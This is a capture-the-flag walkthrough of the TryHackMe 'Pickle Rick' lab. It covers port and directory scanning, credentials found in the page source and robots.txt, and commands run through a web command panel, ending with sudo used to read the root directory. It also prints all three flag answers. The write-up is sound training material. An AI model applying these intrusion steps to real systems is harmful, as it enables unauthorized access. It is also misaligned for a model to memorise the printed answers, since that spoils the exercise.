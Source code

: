 # Pickle Rick

<div align="left">

<figure><img src=".gitbook/assets/BkKtAkO.png" alt="" width="375"><figcaption><p>tryhackme.com - © TryHackMe</p></figcaption></figure>

</div>

🔗 [Pickle Rick](https://tryhackme.com/room/picklerick)

### Task 1 - Deploy the machine

🎯 Target IP: `10.10.150.53`

Create a directory for machine on the Desktop and a directory containing the scans with nmap.

This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

Deploy the virtual machine on this task and explore the web application: 10.10.150.53

You can also access the web application using the following link: [https://10-10-150-53.p.thmlabs.com](https://10-10-150-53.p.thmlabs.com/) (this will update when the machine has fully started)

### Task 2 - Reconnaissance

```bash
su
echo "10.10.150.53 pickle_rick.thm" >> /etc/hosts

mkdir thm/pickle_rick.thm
cd thm/pickle_rick.thm

# At the end of the room
# To clean up the last line from the /etc/hosts file
sed -i '$ d' /etc/hosts
```

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 pickle_rick.thm
```

```bash
PING pickle_rick.thm (10.10.150.53) 56(84) bytes of data.
64 bytes from pickle_rick.thm (10.10.150.53): icmp_seq=1 ttl=63 time=72.8 ms
64 bytes from pickle_rick.thm (10.10.150.53): icmp_seq=2 ttl=63 time=80.6 ms
64 bytes from pickle_rick.thm (10.10.150.53): icmp_seq=3 ttl=63 time=61.8 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target is a \*nix system (probably Linux), while Windows systems usually have a TTL of 128 secs.

<figure><img src=".gitbook/assets/Schermata del 2023-06-17 15-26-31.png" alt=""><figcaption></figcaption></figure>

Seeing html source page we found this precious info about username

<figure><img src=".gitbook/assets/Schermata del 2023-06-17 15-33-26.png" alt=""><figcaption><p>Username: R1ckRul3s</p></figcaption></figure>

#### 2.1 - What is the first ingredient that Rick needs? 

Try to scan open ports is always a good solution:

```bash
nmap -p- --open -sS -n -Pn pickle_rick.thm -oG open_ports
```

```bash
Starting Nmap 7.60 ( https://nmap.org ) at 2023-06-17 14:30 BST
Nmap scan report for pickle_rick.thm (10.10.150.53)
Host is up (0.066s latency).
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:E1:EC:48:00:3F (Unknown)
```

```bash
nmap -p22,80 -sS -n -Pn -sV -sC 10.10.150.53
```

```bash
Starting Nmap 7.60 ( https://nmap.org ) at 2023-06-17 14:30 BST
Nmap scan report for pickle_rick.thm (10.10.150.53)
Host is up (0.00015s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d0:cf:de:e0:28:b0:c4:60:97:9f:9d:50:2e:35:4c:bd (RSA)
|   256 24:c9:a0:ef:86:7e:1b:78:f8:d4:59:87:ce:cd:61:68 (ECDSA)
|_  256 c9:dc:d4:4d:b0:ec:16:7d:d6:97:ed:43:3b:6d:a2:80 (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
MAC Address: 02:E1:EC:48:00:3F (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

We know username and IP and we can try to access with SSH port

```bash
ssh R1ckRul3s@10.10.150.53
```

```bash
The authenticity of host '10.10.150.53 (10.10.150.53)' can't be established.
ECDSA key fingerprint is SHA256:OFFPjHbvGX9Hd++AM6ynQflPu+GRjTFQluD10V6Fg1A.
Are you sure you want to continue connecting (yes/no)? yes
PWarning: Permanently added '10.10.150.53' (ECDSA) to the list of known hosts.
R1ckRul3s@10.10.150.53: Permission denied (publickey).
```

Nothing to do: Permission denied!

We can try to explore potential directory of website using gobuster

```bash
gobuster dir -u 10.10.150.53 -w /usr/share/wordlists/dirb/common.txt
```

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.150.53
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/06/17 15:11:25 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/assets (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)
===============================================================
2023/06/17 15:11:26 Finished
===============================================================
```

We visit /robots.txt and we found this info (maybe password)

<figure><img src=".gitbook/assets/Schermata del 2023-06-17 15-48-26.png" alt=""><figcaption><p>/robots.txt</p></figcaption></figure>

{% hint style="info" %}
Wubbalubbadubdub
{% endhint %}

Since we didn't find any login pages, let's try using nmap's http-enum script

```bash
nmap -p80 --script http-enum 10.10.150.53
```

```bash
Starting Nmap 7.60 ( https://nmap.org ) at 2023-06-17 15:18 BST
Nmap scan report for ip-10-10-150-53.eu-west-1.compute.internal (10.10.150.53)
Host is up (0.00015s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /login.php: Possible admin folder
|_  /robots.txt: Robots file
MAC Address: 02:E1:EC:48:00:3F (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.32 seconds
```

Good news, we found login.php page

<figure><img src=".gitbook/assets/Schermata del 2023-06-17 16-25-53.png" alt=""><figcaption></figcaption></figure>

Inserting user and psw found into index.html source code: R1ckRul3s and robots.txt: Wubbalubbadubdub, we give access!

Now, we have a command panel, where we can launch our commands.

<figure><img src=".gitbook/assets/Schermata del 2023-06-17 16-30-02.png" alt=""><figcaption></figcaption></figure>

Using whoami we check that we're www-data user, with the ls command we explore the current directory where we find the first flag

<figure><img src=".gitbook/assets/Schermata del 2023-06-17 16-31-58.png" alt=""><figcaption></figcaption></figure>

Cat command doesn't work, for this reason we use "less" command to read flag

<details>

<summary>🚩 Flag 1 (Sup3rS3cretPickl3Ingred.txt)</summary>

mr. meeseek hair

</details>

#### 2.2 - What is the second ingredient in Rick’s potion?

Reading clue.txt file we found another important info

<figure><img src=".gitbook/assets/Schermata del 2023-06-17 16-43-07.png" alt=""><figcaption></figcaption></figure>

Exploring file system we found the 2nd ingredient

```bash
ls -ah ../../../home/rick
```

<figure><img src=".gitbook/assets/Schermata del 2023-06-17 16-48-26.png" alt=""><figcaption><p>less ../../../home/rick/second ingredients</p></figcaption></figure>

<details>

<summary>🚩 Flag 2 (second ingredients)</summary>

1 jerry tear

</details>

#### 2.3 - What is the last and final ingredient? 

Usually the last flag is in the protected/root folder, we try to find it

```bash
sudo ls -ah ../../../root/3rd.txt
```

<figure><img src=".gitbook/assets/Schermata del 2023-06-17 17-03-25.png" alt=""><figcaption><p>sudo less ../../../root/3rd.txt</p></figcaption></figure>

<details>

<summary>🚩 Flag 3 (3rd.txt)</summary>

fleeb juice

</details>
